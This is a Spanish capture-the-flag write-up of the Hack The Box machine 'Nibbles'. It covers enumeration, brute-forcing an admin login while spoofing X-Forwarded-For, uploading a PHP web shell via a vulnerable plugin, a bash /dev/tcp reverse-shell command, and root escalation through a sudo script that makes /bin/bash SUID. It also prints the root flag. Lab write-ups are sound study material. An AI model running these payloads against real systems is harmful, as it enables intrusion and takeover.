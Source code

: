 10.10.10.75 Nibbles
--------------------------

Maquina: Linux 
Dificultad: Facil 
Vulns: \[Codigo fuente expuesto] \[Plugin vulnerable que permite subir archivos sin ninguna sanitizacion], \[Contraseña débil], \[script privilegiado
sin protecciones].

--------------------------

Tras un escaneo con el nmap damos con los puertos 22 (ssh) y 80 (http)
La version de ssh es OpenSSH 7.2p2 (desactualizada, ahora estamos en la 9.0 a fecha de Octubre/2022 )

```console
└─$ whatweb http://10.10.10.75
http://10.10.10.75 [200 OK] Apache[2.4.18], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.75]
```
O sea que tenemos una web en php. La pagina nos devuelve la frase "Hello World" pero en el codigo fuente nos dan la ruta /nibbleblog. Este tiene
mas cosas, la ruta "/nibbleblog/feed.php", "/nibbleblog/index.php" "/nibbleblog/admin/js/jquery/jquery.js"

- **"/nibbleblog/feed.php"** -> XML "Nibbles Yum Yum"
- **"/admin"** -> Ruta con todo el codigo fuente. Tiene demasidas cosas. Asi que lo descargare todo.

```console
└─$ wget -m http://10.10.10.75/nibbleblog/admin/
```
Hice una busqueda recursiva de posibles contraseñas pero no halle nada interesante
```console
└─$ grep -rIE "password|pass|key";
```

Resulta que nibbleblog no es un invento de hacktehbox sino que es un CMS de creacion de blogs. Encima tenemos todo su codigo fuente descargado
(una seccion /admin no deberia ser accesible al publico :V)

Tras una busqueda en **searchsploit** damos con que tenemos sqli tanto en //index.php?page=[SQLi] como en /post.php?idpost=[SQLi] pero tras una 
prueba no funciona.

```console
└─$ wfuzz -c --hc=404 -t 200  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.75/nibbleblog/FUZZ
000000061:   301        9 L      28 W       323 Ch      "content"
000000245:   301        9 L      28 W       321 Ch      "admin"
000000505:   301        9 L      28 W       323 Ch      "plugins"
```
En **/content** tenemos /private con muchos php (ilegibles porque los interpreta directamente) y xmls (en users.xml y config.xml confirman que 
existe el usaurio *"admin"*) el resto de carpetas de /content no tienen nada.
En /plugins salen todos los plugins instalados, tras una busqueda en google di con que el "my_image" es vulnerable. Aun asi segui enumerando.

```console
└─$ wfuzz -c --hc=404 -t 200  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.75/nibbleblog/FUZZ.php
000000001:   200        60 L     168 W      2985 Ch     "index"
000000245:   200        26 L     96 W       1401 Ch     "admin"
000000701:   200        0 L      11 W       78 Ch       "install"
000000780:   200        87 L     174 W      1621 Ch     "update"
000000029:   200        10 L     13 W       401 Ch      "sitemap"
000000112:   200        7 L      15 W       300 Ch      "feed"
```
/admin me pide creds. Tanto install como update no me interesan

La peticion es esto ```username=admin&password=123``` Me baje este [script](https://eightytwo.net/blog/brute-forcing-the-admin-password-on-nibbles/) para
enumerar con el rockyuu. La contraseña al final (intento nº 2500, por ahi) era "nibbles"). El script, cambia la cabecera "X-Fordwarded-For" (indica 
nuestra IP) dandole una IP aleatoria cada pocos intentos y que no nos bloqueen.

Una vez entrado en el panel de administración hay una seccion para configurar los plugins. Entre todos está el "my_image" de antes. 
En searchsploit hay un script que tira de metasploit, no esta permitido usarse pero si se puede analizar el script para hacerlo manualmente.

En my_image se puede subir un archivo, probe a subir un shell.php (backdoor en php) y pese a que salieran mensajes de error, funcionó sin sanitizaciones.

```php
<?php
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Tras una busuqeda di con la ruta del [plugin](https://vuldb.com/?id.77730) 
```http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?cmd=whoami # -> nibbleblog```
El comando a pasarle es este (los & estan urlencodeados a %26)
```bash -c 'bash -i >%26 /dev/tcp/10.10.14.10/443 0>%261'```

Escucha con netcat y tratamiento de la tty ```sudo nc -nlvp 443```

Bajo un reconocimiento con mi [script](https://github.com/CUCUxii/Lin_info_xii.sh) encontre cosas raras:
- CLiente sql activo (puerto 3306) -> da ACCES DENIED,
- carpeta /home -> user.txt (flag), personal.zip (archivo, no se que es)
- Tambien tiene backups de "gshadow" "passwd" y "shadow" bajo la carpeta /var/backups
- Binario ejecutable por root sin contraseña! (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh

El /personal.zip tiene el script mencionado antes "monitor.sh"

```console
nibbler@Nibbles:/home/nibbler$ unzip personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh 
```

El script es largo, al principio pone:
```Written for Tecmint.com for the post www.tecmint.com/linux-server-health-monitoring-script/```

El tema no va de descrifrar el script, da igual lo que haya, el asunto esque si se puede ejecutar como root
sin contraseña una cosa que permita darle comandos al sistema la tenemos liada. Han metido un script complicado
para despistar.
Se puede añadir la linea esta al principio (despues del "#!/bin/bash" ) -> ```chmod u+s /bin/bash```
Lo que hace es convertir la shell (/bin/bash) en un binario SUID (que se peuda ejecutar como root durante un 
tiempo). Si se le pasa el comando -p se hace que sea permanente.

```console
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo -u root ./monitor.sh # ejecutarlo como root 
nibbler@Nibbles:/home/nibbler/personal/stuff$ bash -p
bash-4.3# whoami
root
bash-4.3# cd /root
bash-4.3# cat root.txt
728bc9945883952ac8cea0ff12e9b4f3
```



